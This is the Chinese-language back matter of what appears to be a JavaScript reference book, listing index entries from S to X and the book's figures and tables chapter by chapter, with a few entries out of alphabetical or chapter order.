  - JavaScript 驱动的小程序, 563
  - Mozilla 策略, 685–686
  - 同源策略, 680–683
  - 签名脚本, 683–684
  - 模板, 687–688
  - XMLHttp, 600
- 安全区域, IE, 686–690
  - ActiveX 控件, 689–690
  - 站点分类, 687
  - 列表, 686
  - 属性, 688–689
  - 安全模板, 687–688
- 选择菜单, 437–442
- select 对象, HTMLSelectElement, 864–865
- \<select\>, 437–439, 506, 864
- selection 对象, 专有浏览器对象, 865–866
- 自赋值运算符, 算术, 739
- 自赋值运算符, 位运算, 740
- 语义错误, 697–698
- 分号
  - for 循环中的放置, 105
  - 语句与, 27–28
  - 以分号结尾, 76–77
- sendURL( ), 585
- 服务器, 581. *另见* 远程 JavaScript
- 服务器端计算, 592–594
- 服务器端脚本
  - 跨站脚本与, 592
  - 使用其实现 RPC, 590
  - 概述, 582
  - 拼写纠正功能与, 592–594
- 会话 Cookie, 522
- set 方法, Date 对象, 176
- setInterval( ) 方法
  - DHTML 过渡效果, 498
  - 静态菜单与, 518
  - Window 对象, 369
- setTimeout( ) 方法, Window 对象, 368, 587
- shift( ) 方法, 数组, 166
- 简写赋值, 84–85
- show( ) 方法, 弹出窗口, 670
- showModalDialog( ) 方法, 381
- 签名脚本, 683–684
- 签名工具, 684
- 单行注释, 43
- 站点导航, 505. *另见* Cookie; 下拉菜单
- slice( ) 方法, Array 对象, 169
- slice( ) 方法, String 对象, 185
- 滑入菜单, DHTML, 515–518
- small 对象, HTMLElement, 865–866
- \<small\>, 866
- sort( ) 方法, Array 对象, 170–171
- span 对象, HTMLElement, 866–867
- \<span\>, 866
- 特殊字符, 54, 194–195
- 特殊值, 51–52
- 拼写纠正功能, 592–594
- splice( ) 方法, Array 对象, 169
- split( ) 方法, String 对象, 186, 212
- 方括号 ([ ]), 93, 198
- src 属性, \<embed\>, 564
- 堆栈跟踪, 704–706
- 栈, Array 对象作为, 165–166
- 独立函数, 130
- 标准
  - DOM, 134, 236, 489
  - ECMAScript, 20–21
  - Mozilla 中的支持, 674–675
  - W3C, 21
- 状态管理
  - 使用 Cookie, 527
  - 使用框架, 379–381
  - IE 扩展, 531–532
- 无状态协议, 522
- 语句, 27–28
  - 块, 77–78
  - break, 101–102, 105–106
  - continue, 105–108
  - 定义, 24
  - do-while 循环, 103–104
  - else, 97–98
  - 流程控制, 36–37
  - for...in, 109–110
  - if, 97
  - import/export, 109
  - 循环, 37–39
  - for 循环, 104–105
  - 概述, 27
  - return 与, 27–28
  - 分号与, 27–28
  - 逻辑表达式的短路求值, 99
  - switch, 98–101
  - 终止, 76–77
  - throw, 109
  - try...catch, 109
  - while 循环, 102–103
  - 空白, 76
  - with, 108–109
- 静态菜单, DHTML, 518–520
- 静态属性
  - Event 对象, 320
  - 对象, 155–156
  - RegExp 对象, 209–211, 751
- 静态变量, 124–125
- 状态栏属性, Window 对象, 367–368
- 状态消息, 表单, 456
- status 属性, Window 对象, 367, 457
- stopPropagation( ) 方法, DOM2, 340
- strike 对象, HTMLElement, 867
- \<strike\>, 867
- 字符串数据类型, 53–57
  - 字符表示, 54–55
  - 转换, 66, 734
  - 定义, 29
  - HTML 与, 56–57
  - 概述, 53–54
  - 引号表示法, 55–56
  - 特殊字符, 54
- String 对象, 183–188
  - 比较字符串, 88–89
  - 字符串连接, 80–81
  - 转义序列, 733
  - 检查字符串, 184–185
  - 使其可访问的函数, 135
  - 操作字符串, 186
  - 将字符串标记为 HTML, 186–187
  - 方法, 54, 187–188, 868–869
  - 概述, 183–184
  - 属性, 867
  - 正则表达式方法, 211–214
- String( ) 构造函数, 183–184
- strong 对象, HTMLElement, 870
- \<strong\>, 870
- 强类型语言, 48
- style 属性, 505
- 样式类, DHTML, 493–494
- Style 对象
  - DHTML, 489–493
  - 方法, 885
  - 定位相关属性, 477
  - 属性, 492–493, 870–884
- style 对象, 文档对象, 885
- 样式表, 539
- \<style\>, 285, 532, 885
- 样式, CSS. *见* CSS (层叠样式表)
- 样式, DHTML
  - 类, 493–494
  - 计算样式, 494–496
  - 对象, 489–493
- styleSheet 对象, 文档对象, 886–887
- styleSheets[ ] 集合, 285
- sub 对象, HTMLElement, 887
- \<sub\>, 887
- 子表达式, RegExp, 203–204
- submit 对象, HTMLInputElement, 888
- submit( ) 方法, Form 对象, 418–419
- substring( ) 方法, 185
- 减法 (-) 运算符, 79
- 子树, DOM, 254
- sup 对象, HTMLElement, 889
- \<sup\>, 889
- SVG, 617
- switch 语句, 98–101
  - 作为 if/else 语句的替代, 98
  - case 与, 36–37, 100
  - 形式, 746
  - 问题, 101–102
  - 语法, 99–100
- 症状, JavaScript 错误, 701–702
- 语法错误, 695–696, 698, 700
- 语法参考, 729–751
  - 算术运算符, 739–740
  - 位运算符, 740
  - 块语句, 744–745
  - 内置对象, 736
  - 逗号运算符, 742
  - 复合类型, 735
  - 条件运算符, 740–741
  - 条件语句, 746
  - 数据类型, 732
  - 异常, 748
  - 流程控制, 744
  - 函数, 745
  - 实例属性, 735
  - 标签, 747
  - 语言, 729–731
  - 字面量, 737–738
  - 逻辑运算符, 740
  - 循环, 746–747
  - 对象创建, 735
  - 运算符优先级和结合性, 743–744
  - 运算符, 739
  - 原始类型, 732–733
  - 正则表达式, 748–751
  - 关系运算符, 742–743
  - with 语句, 745
  - this 语句, 736
  - 类型转换, 733–735
  - 类型运算符, 741

## T

- 表格操作, DOM, 405–414
- table 对象, HTMLTableElement, 889–891
- \<table\>, 405–406, 409, 889
- 表格, HTML 到 DOM 的映射, 273
- tagName 属性, HTMLElement 对象, 256
- tBody 对象, HTMLTableElement, 891
- \<tbody\>, 891
- td 对象, HTMLTableCellElement, 892–893
- \<td\>, 892
- 技术, 浏览器检测, 539–544
- 终止, 分号和 return 与, 76–77
- test( ) 方法, RegExp 对象, 203
- 文本
  - 字段, 393–394, 426–431
  - 节点操作方法, 270
- Text 对象, HTMLInputElement, 893–894
- textarea 对象, HTMLTextAreaElement, 894–895
- \<textarea\>
  - ActiveX, 574
  - 与 textarea 对象的对应关系, 894
  - 表单字段, 426, 428–431
  - 拼写纠正功能, 592–594
- TextNode 对象, 文档对象, 895–896
- TextRange 对象, 专有浏览器对象, 896–898
- TextRectangle 对象, 专有浏览器对象, 898–899
- tFoot 对象, HTMLTableElement, 891
- \<tfoot\>, 891
- th 对象, HTMLTableCellElement, 892–893
- \<th\>, 892
- tHead 对象, HTMLTableElement, 891
- this 关键字, 153
- this 语句, 736
- \<thead\>, 891
- 线程, 远程 JavaScript, 588
- throw. *另见* try...catch 语句
  - 捕获异常, 716
  - 引发异常, 748
  - 概述, 109
- 右移位运算符 (>>), 83–84
- 翻转按钮, 467–476
  - 浏览器检测, 542
  - CSS 与, 475–476
  - DHTML 与, 498–499
  - 事件绑定问题, 468
  - 扩展, 473–475
  - 代码通用化, 470–473
  - 缺乏 Image 对象支持, 468–469
  - 局限性, 467–468
  - 概述, 467
  - 预加载图像, 468–469
- routeEvent( ) 方法, 321
- RPCComplete( ) 方法, 597
- RPC（远程过程调用）
  - 回调, 594–595
  - 基于 Cookie, 588–589
  - 远程 JavaScript 与, 581–582
  - 使用规则, 588
  - 发送, 585
- RSS（简易信息聚合）, 632–637
  - \<rss\>, 632
- rt 对象, 专有文档对象, 860
  - \<rt\>, 860
- ruby 对象, 专有文档对象, 861
  - \<ruby\>, 861
- rule 对象, CSSrule, 861–862
- 运行时错误, 696–698, 700
- runtimeStyle 对象, 专有文档对象, 862


 ## 索引

## T

- timeout 方法，Window 对象，368
- title 对象，HTMLTitleElement，899
- `<title>`，391，899
- tokens（词符），24
- toLocaleString( ) 方法，Array 对象，170
- toLowerCase( ) 方法，String 对象，184
- toSource( ) 方法，Array 对象，170
- toString( ) 方法
  - Array 对象，169–170
  - Boolean 对象，173
  - Date 对象，176
  - 所有对象的通用方法，145–146
  - 用于类型转换，64
- tr 对象，HTMLTableRowElement，899–900
- `<tr>`，899
- transitions（过渡效果）
  - DHTML，496–499
  - 滤镜与过渡效果，654–655
- TreeWalker 对象，288
- true/false，在布尔语句中，57–58
- 受信任站点（Trusted Sites），安全策略，685–686
- 真值表，用于位运算符，82
- try…catch 语句，109，715–717
- try/catch/finally 块结构，748
- tt 对象，HTMLElement，900
- `<tt>`，900
- type 属性，`<script>`，7–8
- 类型转换，64–67
  - 类型比较与转换，742
  - 基本类型的转换规则，65–66
  - 按数据类型转换，734
  - 日期转换为字符串，177
  - 显式转换，67
  - 由 JavaScript 驱动的小程序与转换，563
  - 手动转换技术，735
  - 概述，64
  - 将基本类型提升为对象，66–67
  - 字符串转换为日期，177–178
  - 语法，733–735
- type 运算符，741
- typeof 运算符
  - 用于检查数据类型，63
  - 错误报告与，113
  - 返回值，92

## U

- u 对象，HTMLElement，901
- `<u>`，901
- UI（用户界面）事件，DOM2，336–337
- ul 对象，UListElement，901
- `<ul>`，901
- UListElement，901
- 一元运算符，81，740
- undefined 数据类型，58–60
  - 转换，734
  - 定义，29
  - 与 null 数据类型的区别，59–60
  - 概述，58–59
- undefined 值，113，745
- unescape( ) 方法，字符串，180
- Unicode 字符集，54–55
- unshift( ) 方法，数组，166
- 无类型语言，48
- URL
  - href 属性，392
  - 使用 Location 对象访问，366
- URL 属性，Document 对象，388
- 用户界面（UI）事件，DOM2，336–337
- userAgent 属性，Navigator 对象，536，538–539
- 用户定义的对象，133–134，147–148，754
- userProfile 对象，901–902
- 用户，隐私保护，682
- UTC（协调世界时），174

## V

- 有效的 XML，607–608
- 变量的值，47
- valueOf( ) 方法，145–146
- var 关键字，28–29，47–48，69
- var 对象，HTMLElement，902–903
- `<var>`，902
- 变量作用域
  - 与事件处理程序，72–73
  - 与执行上下文，73–74
  - 与函数，70–72
  - 概述，70
- 变量
  - 与运算符结合，35
  - 条件编译，649
  - 调试器监视，706
  - 声明，47–48，69–70
  - 执行，73–74
  - 标识符，47，67–69
  - 遮蔽，119–120
  - 概述，28–29，47–48
  - 作用域，70–73
  - 静态变量，124–125
  - 变量类型，47
  - 值，47
- 变参函数，130
- 向量，62。另见数组
- Venkman 调试器，707
- 版本检测，JavaScript，541–542
- visibility 属性，CSS，511
- 视觉属性（Screen 对象），浏览器检测，544–548
- void 运算符，91–92

## W

- W3C 标准，21，134
- W3Compiler，69，724
- wbr 对象，专有文档对象，903
- `<wbr>`，903
- 弱类型语言，48–49，732
- Web 浏览器。见 browsers
- Web 站点，IE 安全区域与，687
- 弱类型。见 dynamic typing
- 格式良好的文档，606
- 格式良好的 XML，603–607
  - 与格式不正确的文档比较，606
  - 语法规则，604–606
  - 与有效文档，607
- while 循环
  - 循环类型与，37
  - 概述，102–103
  - 语法，747
- 空白字符
  - 字符，26–27
  - 压缩，724
  - 省略导致的语法错误，76
- Window 对象。另见 frames
  - 访问窗口历史，366–367
  - alert( ) 方法，348
  - 更改窗口外观，551
  - confirm( ) 方法，348–350
  - 对话框，347–351
  - document 属性，134
  - DOM 方法与，360–361
  - 事件，370–371
  - 扩展，381–384
  - 输入/输出与，40–41
  - 窗口间通信，361–362
  - 方法，906–911
  - 移动窗口，362–363
  - Object 模型中的，223
  - onerror 处理程序，710–712
  - 打开和关闭窗口，351–354
  - 概述，903
  - 弹出窗口，670–671
  - prompt( ) 方法，350–351
  - 属性，371，904–906
  - 调整窗口大小，363
  - 同源策略与，681
  - Screen 对象作为其子对象，544
  - 滚动窗口，364–366
  - 设置窗口位置，366
  - 状态栏属性，367–368
  - timeout 和 interval 方法，368–370
  - 用户交互与，32
  - window.open 参数，354–358
  - 写入窗口，358–360
- window.frames[ ]。见 frames
- 无线标记语言（WML），603
- with 语句
  - Math 对象与，182–183
  - 概述，108–109
  - 引用对象属性，141–142
  - 语法，745
- WML（无线标记语言），603
- write( ) 方法，Document 对象，42，61，358–359，362，389–390
- writeln( ) 方法，Document 对象，42，389–390
- writePage( ) 方法，720–721

## X

- XHTML/HTML
  - HTML 4 及更早版本中的大小写敏感性，25–26
  - 与运算符结合，35
  - CSS 依赖 XHTML 进行文档结构化，615
  - Document 对象方法，765–769
  - Document 对象属性，761–765
  - Document 对象支持，398–400
  - 相关的 DOM 集合，391–397
  - 相关的 DOM 元素，272–276，402–404
  - DOM 树结构与，253
  - 按名称访问元素，231，262
  - 按位置访问元素，230
  - 写入网页前进行转义，694
  - 事件属性，300–301
  - 事件绑定属性，330
  - 非标准事件绑定，310
  - 事件处理程序属性，300–301
  - 事件处理程序，232–233
  - 可直接调用的事件，315
  - 事件，HTML 4，811–812
  - 框架，371–375
  - HTA，657–660
  - HTC，664–665
  - 使用链接加载多个框架，377
  - 映射到 XML，249
  - 参考书，6
  - 在 JavaScript 对象模型中引用元素，233–236
  - 字符串与，56–57
  - 标记为传统 HTML 的字符串，186–187
  - `<title>` 标签，391
  - XML 与 XHTML 结合，615–618
- XML（可扩展标记语言），603–637
  - 与 XHTML 结合，615–618
  - 显示 XML，608–609
  - 使用 CSS 显示，614–615
  - DOM IE 示例，620–624
  - DOM Mozilla 示例，624–630
  - IE XML 数据岛，618–619
  - 映射到 (X)HTML，249
  - 概述，603
  - 远程 XML，632–637
  - 脚本化 IE XML 数据岛，630–632
  - 转换为 HTML，609–614
  - 有效的，607–608
  - 格式良好的，603–607
- XML 数据岛，618–619，630–632
- xml 对象，专有文档对象，911–913
- XML 解析器，608
- `<xml>`，618，911
- XMLDocument 对象，625
- XMLHttpRequest
  - 创建/发送请求，599–600
  - 概述，597–598
  - POST 方法，600
  - 安全性，600
- XMLHttpRequest 对象，597，599
- xmlns 属性，616
- xmp 对象，专有文档对象，914
- `<xmp>`，914
- XOR (^)，位运算符，82
- XSL（可扩展样式表）
  - Internet Explorer 对 XSL 的支持，611
  - 概述，609
  - 使用 XSL 进行转换，612–614
- XSLT（可扩展样式表转换），609–614
- XSS。见 cross-site scripting

## 插图列表

### 第 1 章：JavaScript 简介

- 图 1-1：Internet Explorer 中的 "Hello World from JavaScript"
- 图 1-2：JavaScript 错误对话框
- 图 1-3：如果未屏蔽，JavaScript 代码可能会打印到屏幕上。
- 图 1-4：使用 `<noscript>` 处理不支持 JavaScript 的浏览器。
- 图 1-5：脚本可以与用户交互。
- 图 1-6：用于调试和测试的 JavaScript 控制台

### 第 2 章：JavaScript 核心特性概述

- 图 2-1：write() 和 writeln() 方法的输出

### 第 3 章：数据类型和变量

- 图 3-1：说明字符串中的转义码和引号
- 图 3-2：局部变量隐藏同名的全局变量。
- 图 3-3：变量可能在尚未初始化时就可见。

### 第 4 章：运算符、表达式和语句

- 图 4-1：逻辑表达式可以被短路求值。
- 图 4-2：现代浏览器尝试优雅地处理不终止的脚本。
- 图 4-3：break 与 label 一起使用和单独使用
- 图 4-4：continue 与 label 一起使用和单独使用
- 图 4-5：for...in 语句可用于遍历对象的属性。

### 第 6 章：对象

- 图 6-1：使用 for/in 循环枚举 Document 对象的属性
- 图 6-2：Mozilla 支持类数组样式的字符串索引。
- 图 6-3：引用变量可以在函数内部更改。
- 图 6-4：关联数组在 JavaScript 中提供键/值数据查找功能。

### 第 7 章：Array、Date、Math 和类型相关对象


 图 7-1：常见 **Date** 函数的实际操作
图 7-2：**Date** 对象转换为字符串

## 第 8 章：正则表达式

图 8-1：正则表达式简化了模式匹配
图 8-2：全局标志从上次匹配结束的位置开始搜索
图 8-3：使用设置了全局标志的 regexp 上的 exec() 解析字符串中的单词
图 8-4：没有全局标志的正则表达式匹配结果

## 第 9 章：JavaScript 对象模型

图 9-1：JavaScript："大局观"
图 9-2：初始 JavaScript 对象模型
图 9-3：简单的 **Document** 属性
图 9-4：某些 **Document** 属性不需要 HTML 元素
图 9-5：Netscape 3 对象模型
图 9-6：Netscape 4 对象模型
图 9-7：Internet Explorer 3 对象模型基本上模仿了 Netscape 2
图 9-8：Internet Explorer 4 对象模型
图 9-9：IE 的 **document.all** 集合暴露了所有文档元素

## 第 10 章：标准文档对象模型

图 10-1：IE、Mozilla 和 Opera 中报告的 DOM 支持情况
图 10-2：简单的树遍历输出
图 10-3：DOM 树遍历工具
图 10-4：基于 DOM 的简单 HTML 编辑器
图 10-5：Mozilla 下 CSS 内联测试工具的渲染效果
图 10-6：跨浏览器使用 **document.all[]**

## 第 11 章：事件处理

图 11-1：点击粗体文本会触发 **click** 事件，该事件会沿层级向上冒泡
图 11-2：如果事件是可取消的，设置 **event.cancelBubble** 可以阻止事件传播
图 11-3：上下文信息通过 **Event** 对象传入
图 11-4：取消默认行为与停止传播并不相同

## 第 12 章：控制窗口和框架

图 12-1：简单窗口及其源代码

图 12-2：框架关系

## 第 13 章：处理文档

图 13-1：背景和颜色示例的渲染效果

图 13-2：表单字段访问示例

图 13-3：**Image** 属性示例

图 13-4：使用 DOM 检查并更改 **<table>** 标签

图 13-5：单元格和行操作示例

## 第 14 章：表单处理

图 14-1：基本 **Form** 方法和属性的使用

图 14-2：正在测试的文本字段

图 14-3：Internet Explorer 下的复选框/单选按钮示例

图 14-4：动态表单示例的渲染效果

## 第 15 章：动态效果：鼠标悬停、定位和动画

图 15-1：使用 JavaScript 操作 **Image** 属性

图 15-2：响应鼠标悬停更新文档的单独区域

图 15-3：测试我们的跨浏览器内容区域库

图 15-4：支持标准的浏览器中的 DHTML 需要了解 CSS

图 15-5：计算样式和实际样式可能有所不同

图 15-6：简单的 DHTML 页面过渡

图 15-7：飞行中的 JavaScript UFO

## 第 16 章：导航和站点访问改进

图 16-1：基本下拉菜单

图 16-2：带分区的改进型下拉菜单

图 16-3：简单的 DHTML 下拉菜单

图 16-4：远程控制窗口提供了一种将控件移出主浏览器窗口的方法

图 16-5：滑入式菜单的实际效果

图 16-6：使用 Cookie 保存样式自定义设置

## 第 17 章：浏览器和功能检测

图 17-1：Internet Explorer、Netscape 和 Opera 下的浏览器检测结果

图 17-2：Explorer 的客户端功能实际效果

## 第 18 章：JavaScript 与嵌入式对象

图 18-1：**myhelloworld** 小程序在 Internet Explorer 中的输出

图 18-2：JavaScript 可以调用 Java 小程序的 **public** 方法

图 18-3：嵌入式 Flash 文件

图 18-4：Mozilla 中 **mimeTypes[]** 数组的内容

图 18-5：**navigator.plugins[]** 数组的示例内容

图 18-6：可脚本化的 Flash 插件让我们可以缩放 Flash 文件

## 第 19 章：远程 JavaScript

图 19-1：来自 JavaScript Ref 作者的不太可能的消息

图 19-2：使用 RPC 进行拼写检查

## 第 20 章：JavaScript 与 XML

图 20-1：Internet Explorer 中格式良好的 XML

图 20-2：格式不正确的文档将无法渲染

图 20-3：验证错误消息

图 20-4：Internet Explorer 支持基本的客户端 XSL

图 20-5：使用 XSL 将 XML 文档转换为 HTML 表格

图 20-6：使用 CSS 直接显示 XML 文档

图 20-7：Mozilla 下包含 MathML 和 SVG 的 XHTML

图 20-8：借助 IE 的数据绑定，您可以轻松输出结构化数据

图 20-9：使用 JScript 和 DOM 直接操作 XML 文档

图 20-10：Netscape 6 和 Mozilla 可以轻松直接地操作 XML

图 20-11：使用 JavaScript 读取 RSS 源

## 第 21 章：浏览器特定扩展和注意事项

图 21-1：使用 **Enumerator** 遍历页面中的所有元素

图 21-2：在 HTA 中使用 **FileSystemObject** 实现简单的文本编辑器

图 21-3：Internet Explorer 下的数据绑定示例

图 21-4：动态属性让您可以自动计算样式

图 21-5：使用动态属性创建基本计算器

图 21-6：弹出窗口提供与 **alert()** 或普通浏览器窗口不同的行为

## 第 22 章：JavaScript 安全

图 22-1：设置 Mozilla 的整体 JavaScript 首选项

图 22-2：将站点分类到 Internet Explorer 的安全区域中

图 22-3：大多数安全区域都有默认的安全模板

图 22-4：自定义安全区域属性

## 第 23 章：JavaScript 编程实践

图 23-1：在 Internet Explorer 中启用脚本错误通知

图 23-2：Internet Explorer（上）和 Mozilla（下）中的语法错误

图 23-3：Internet Explorer（上）和 Mozilla（下）中的运行时错误

图 23-4：在 Mozilla 中使用 Error.stack 获取堆栈跟踪

图 23-5：手动构建的堆栈跟踪

图 23-6：Venkman JavaScript 调试器的实际使用

图 23-7：在 Internet Explorer 中启用脚本调试

图 23-8：使用 Microsoft 脚本调试器帮助追踪错误

图 23-9：使用 **onerror** 处理程序进行自动错误报告

图 23-10：混淆后的代码在功能上与原始代码等效

## 附录 B：JavaScript 对象参考

图 B-1：JavaScript 对象模型的"大局观"

图 B-2：Netscape 2 和 Internet Explorer 3 的传统对象模型

图 B-3：Netscape 3 对象模型

图 B-4：Internet Explorer 3 对象模型

图 B-5：Netscape 4 对象模型

图 B-6：Internet Explorer 4+ 对象模型

## 表格列表

### 第 1 章：JavaScript 简介

- 表 1-1：浏览器版本与 JavaScript 支持

### 第 2 章：JavaScript 核心特性概述

- 表 2-1：编程语言基本术语

### 第 3 章：数据类型和变量

- 表 3-1：特殊数值数据值汇总
- 表 3-2：与特殊数值相关的 Number 对象属性
- 表 3-3：JavaScript 支持的转义码
- 表 3-4：typeof 运算符返回的值
- 表 3-5：转换为布尔值的结果
- 表 3-6：转换为数字的结果
- 表 3-7：转换为字符串的结果

### 第 4 章：运算符、表达式和语句

- 表 4-1：基本算术运算符
- 表 4-2：位运算真值表
- 表 4-3：JavaScript 的位运算符
- 表 4-4：位移位运算符
- 表 4-5：算术或位运算的简写赋值
- 表 4-6：比较运算符
- 表 4-7：逻辑运算符
- 表 4-8：typeof 运算符的返回值
- 表 4-9：JavaScript 运算符的优先级和结合性

### 第 6 章：对象

- 表 6-1：JavaScript 可用的四种对象类型
- 表 6-2：所有对象共有的属性和方法

## 第 7 章：Array、Date、Math 及相关类型对象

- 表 7-1：Date() 构造函数的参数
- 表 7-2：全局可用方法
- 表 7-3：Math 对象提供的常量
- 表 7-4：Math 对象提供的方法
- 表 7-5：Number 对象的属性
- 表 7-6：与 HTML 相关的字符串方法

## 第 8 章：正则表达式

- 表 8-1：修改正则表达式解释方式的标志
- 表 8-2：正则表达式转义码
- 表 8-3：重复量词
- 表 8-4：正则表达式字符类
- 表 8-5：一些正则表达式示例
- 表 8-6：RegExp 对象的实例属性
- 表 8-7：RegExp 类对象的静态属性

## 第 9 章：JavaScript 对象模型

- 表 9-1：核心浏览器对象概述
- 表 9-2：最低公共标准文档属性
- 表 9-3：最低公共标准文档方法
- 表 9-4：Netscape 3 中的新文档属性
- 表 9-5：Netscape 4 中的新文档属性
- 表 9-6：Internet Explorer 4 中的新文档属性
- 表 9-7：IE4 中文档模型对象的一些新属性
- 表 9-8：IE4 中文档模型对象的一些新方法

## 第 10 章：标准文档对象模型

- 表 10-1：与 HTML 文档相关的 DOM 节点
- 表 10-2：DOM 节点属性
- 表 10-3：DOM Level 0 集合
- 表 10-4：创建节点的 DOM 方法
- 表 10-5：文本节点操作方法


## 第11章：事件处理

- 表10-6：CSS属性到DOM属性的映射
- 表10-7：样式对象属性
- 表11-1：浏览器事件模型兼容性的噩梦
- 表11-2：(X)HTML中的基本事件及其对应的事件处理属性
- 表11-3：Netscape和Internet Explorer中可用的非标准事件处理程序示例
- 表11-4：从重要事件处理程序返回false的影响
- 表11-5：可直接在(X)HTML元素上触发的事件
- 表11-6：Netscape 4事件对象的实例属性
- 表11-7：Netscape 4中用于事件捕获的事件对象静态属性
- 表11-8：IE4+事件对象的一些有用属性
- 表11-9：Internet Explorer事件的行为
- 表11-10：所有事件对象共有的属性
- 表11-11：DOM2事件支持的鼠标相关事件
- 表11-12：事件为鼠标相关时事件对象的附加属性
- 表11-13：大多数浏览器支持的键盘事件
- 表11-14：Mozilla中与按键相关事件的事件对象附加属性
- 表11-15：与浏览器和表单相关的DOM2事件及其行为
- 表11-16：与UI相关的DOM2事件及其行为
- 表11-17：文档变更事件
- 表11-18：事件模型主要特性总结

## 第12章：控制窗口和框架

- 表12-1：window.open()的功能参数值
- 表12-2：常用窗口事件
- 表12-3：有用的扩展窗口事件
- 表12-4：与框架相关的常用窗口属性

## 第13章：处理文档

- 表13-1：与颜色相关的文档属性
- 表13-2：传统文档集合
- 表13-3：DOM Level 1文档属性和集合
- 表13-4：HTMLElement的常用DOM属性
- 表13-5：HTMLElement的常用DOM方法
- 表13-6：与DOM HTMLElement关联的(X)HTML元素
- 表13-7：与DOM对象关联的(X)HTML元素

## 第14章：表单处理

- 表14-1：表单对象的主要属性
- 表14-2：所有代表<input>标签的对象共有的属性和方法
- 表14-3：类型为"submit"、"reset"和"button"的输入框的附加方法
- 表14-4：类型为"image"的输入框的附加属性
- 表14-5：代表<button>标签的HTMLButtonElement对象的属性
- 表14-6：类型为"text"或"password"的输入框的附加属性
- 表14-7：HTMLTextAreaElement对象的独有属性
- 表14-8：类型为"radio"或"checkbox"的<input>的附加属性
- 表14-9：类型为"file"的<input>的附加属性
- 表14-10：HTMLSelectElement对象的附加属性和方法
- 表14-11：HTMLOptionElement对象的附加属性
- 表14-12：HTMLOptGroupElement对象的特定DOM属性
- 表14-13：HTMLLabelElement对象的属性
- 表14-14：HTMLFieldSetElement对象支持的额外属性
- 表14-15：HTMLLegendElement对象的属性

## 第15章：动态效果：鼠标悬停、定位和动画

- 表15-1：图像对象的属性
- 表15-2：样式对象的位置相关属性
- 表15-3：有用的层对象属性

## 第16章：导航和站点访问改进

- 表16-1：Cookie的结构剖析

## 第17章：浏览器和功能检测

- 表17-1：用于浏览器名称和版本检测的Navigator属性

## 第18章：JavaScript和嵌入对象

- 表18-1：MimeType对象的属性
- 表18-2：Plugin对象的一些有趣属性

## 第19章：远程JavaScript

- 表19-1：XMLHTTP对象的属性和方法

## 第21章：特定浏览器的扩展和注意事项

- 表21-1：JScript语言与浏览器版本之间的关系
- 表21-2：Microsoft JScript与ECMA Script之间的关系
- 表21-3：Microsoft与Netscape/Mozilla JavaScript的大致对应关系
- 表21-4：JScript 3.0中的专有扩展
- 表21-5：Enumerator对象的方法
- 表21-6：条件编译变量
- 表21-7：Internet Explorer 4中引入的一些专有特性
- 表21-8：Internet Explorer 5中引入的一些专有特性
- 表21-9：Internet Explorer 5.5中引入的一些专有特性
- 表21-10：JScript的FileSystemObject的方法
- 表21-11：Internet Explorer 5+中用于动态属性的方法
- 表21-12：Internet Explorer 5+中可用的一些默认行为
- 表21-13：JavaScript语言版本与Netscape浏览器版本的对应关系
- 表21-14：语言版本与ECMAScript标准的对应关系
- 表21-15：基于Mozilla的浏览器中的标准支持
- 表21-16：基于Mozilla的浏览器根据其DOCTYPE对页面的解释不同
- 表21-17：Mozilla平台的组件

## 第22章：JavaScript安全

- 表22-1：假设调用脚本位于文档http://www.example.com/dir/page.html时的同源检查结果列表
- 表22-2：不受同源检查约束的一些属性和方法
- 表22-3：Internet Explorer安全区域的相关安全属性

## 第23章：JavaScript编程实践

- 表23-1：JavaScript编程错误的类别
- 表23-2：常见JavaScript错误及其症状
- 表23-3：window.onerror的值和效果
- 表23-4：Error对象的属性因浏览器而异
- 表23-5：主要浏览器识别的language属性
- 表23-6：良好的编码风格指南

## 附录A：核心语法快速参考

- 表A-1：JavaScript的标准版本
- 表A-2：Netscape语言与浏览器版本的对应关系
- 表A-3：Microsoft语言与浏览器版本的对应关系
- 表A-4：Netscape和Microsoft实现的大致对应关系
- 表A-5：Netscape JavaScript与ECMAScript的关系
- 表A-6：Microsoft JScript与ECMAScript的关系
- 表A-7：JavaScript原始数据类型
- 表A-8：有用的数值常量
- 表A-9：字符串转义码
- 表A-10：原始布尔数据的类型转换结果
- 表A-11：Null数据的类型转换结果
- 表A-12：原始数字数据的类型转换结果
- 表A-13：原始字符串数据的类型转换结果
- 表A-14：Undefined数据的类型转换结果
- 表A-15：手动类型转换技术
- 表A-16：JavaScript内置对象
- 表A-17：全局对象的属性
- 表A-18：二元（双操作数）和自赋值算术运算符
- 表A-19：前缀/后缀算术运算符
- 表A-20：一元（单操作数）算术运算符
- 表A-21：二元和自赋值按位运算符
- 表A-22：二元逻辑运算符
- 表A-23：二元类型运算符
- 表A-24：二元关系运算符
- 表A-25：JavaScript运算符的优先级和结合性
- 表A-26：JavaScript异常对象
- 表A-27：一些正则表达式示例
- 表A-28：正则表达式标志
- 表A-29：正则表达式重复量词
- 表A-30：正则表达式字符类
- 表A-31：正则表达式转义码
- 表A-32：高级正则表达式特性
- 表A-33：RegExp对象的静态属性

## 附录B：JavaScript对象参考

- 表B-1：偶尔用于描述属性或方法的属性
- 表B-2：Style对象的属性
- 表B-3：window.open()的features参数中feature条目的可能值
- 表B-4：showModalDialog和showModelessDialog的features参数各部分的可能值

## 附录C：JavaScript保留字

- 表C-1：JavaScript 1.5中的保留字
- 表C-2：潜在的保留字
